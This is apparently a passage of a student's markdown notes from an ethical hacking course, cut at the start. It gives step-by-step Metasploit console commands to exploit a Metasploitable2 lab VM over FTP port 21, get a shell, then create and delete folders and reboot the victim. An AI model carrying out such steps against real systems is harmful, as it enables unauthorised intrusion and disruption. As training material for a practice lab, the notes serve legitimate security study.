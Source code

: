 	- STEP 10.3 : setting the port no. of FTP , so run the same command `set rport 21` , <br>- then run `options` - to check whether the port no. is changed or not , output <br><img src="../notes-pics/03-Module/17_lecture/17_lecture-13-M3.jpg" alt="" width="500"/>
- STEP 11 : now we'll exploit the Victim's system via his/her RHOSTS & RPORT
	- 2 ways to exploit <br>1st way : `exploit` <br>2nd way : `run -j` => use this command when `exploit` command not working <br>3rd way : `run` <br>> `-j` : means processing will be done in background or behind the scene
	- STEP 11.1 : run `exploit` , output :<br><img src="../notes-pics/03-Module/17_lecture/17_lecture-14-M3.jpg" alt="" width="500"/>
	- this output , shows that we got the shell of Victim's machine
	- STEP 11.2 : run `ls` , output : we'll get all the files & folders - including "root" folder <br>- & same files & folders shown - just like earlier we did via `mount` command 
	- STEP 11.3 : run `ifconfig` , output : we'll get the details <br>> STEP 11.3.1 : run `mkdir test` command & then `ls` , output : "test" folder also created<br>> STEP 11.3.2 : open the Metasploitable2 (Victim's system) , then run `ls` , output : "test" will be shown <br>> STEP 11.3.3 : in kali , run `rm -r test` , output : "test" folder is removed permanently <br>> STEP 11.3.4 : in Metasploitable2 , run `ls` , output : "test" is also removed from this machine
	- STEP 11.4 : now let's reboot the Victim's system via our system , run `reboot` <br>- output : when u go in Metasploitable2 system , rebooting process started & all the services will rebooted ✔ <br><img src="../notes-pics/03-Module/17_lecture/17_lecture-15-M3.jpg" alt="" width="500"/> <br>- so session also closed due to reboot
	- STEP 11.5 : to make connection again , run `exploit` command